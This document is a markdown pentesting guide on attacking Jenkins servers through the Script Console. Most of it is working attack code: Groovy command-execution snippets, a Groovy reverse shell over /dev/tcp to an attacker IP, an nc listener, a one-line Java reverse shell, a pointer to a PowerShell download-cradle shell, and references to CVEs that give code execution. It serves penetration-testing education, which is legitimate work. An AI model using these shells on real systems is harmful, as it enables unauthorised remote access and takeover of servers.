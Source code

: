 ```yaml
---
title: Pentesting Jenkins
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - web
  - pentesting
  - techniques
  - jenkins
---
```

# Pentesting Jenkins

[Jenkins](https://www.jenkins.io/) is an open-source automation server written in Java that helps developers build and test their software projects continuously. Similar to Tomcat.

Jenkins runs on Tomcat port 8080 by default. It also utilizes port 5000 to attach slave servers. This port is used to communicate between masters and slaves. Jenkins can use a local database, LDAP, Unix user database, delegate security to a servlet container, or use no authentication at all.

## Version

It's usually in the footer section.

## Command execution

### Script Console

Once we have gained access to a Jenkins application, a quick way of achieving command execution on the underlying server is via the [Script Console](https://www.jenkins.io/doc/book/managing/script-console/) located under "Manage Jenkins" tab.

#### Web shell

Some snippet code that we could use:

```groovy
def cmd = 'id'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout
```

![](img/jenkins_01.png)


#### Reverse shell
Some snippet code that we could use:

```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.147/1234;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

![](img/jenkins_00.png)

And have a listener in our attacking machine.

```bash
nc -lnvp 1234      
```


### Windows

#### Invoke-PowerShellTcp.ps1

Against a Windows host, we could attempt to add a user and connect to the host via RDP or WinRM or, to avoid making a change to the system, use a PowerShell download cradle with [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). We could run commands on a Windows-based Jenkins install using this snippet:

```groovy
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");
```

#### Java Reverse shell

Save this file, but modify first  host and port.

```java
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```


## Other RCEs 

- CVE-2018-1999002 and [CVE-2019-1003000](https://jenkins.io/security/advisory/2019-01-08/#SECURITY-1266) This flaw allows users with read permissions to bypass sandbox protections and execute code on the Jenkins master server. This exploit works against Jenkins version 2.137.
- Another vulnerability exists in Jenkins 2.150.2, which allows users with JOB creation and BUILD privileges to execute code on the system via Node.js. This vulnerability requires authentication, but if anonymous users are enabled, the exploit will succeed because these users have JOB creation and BUILD privileges by default.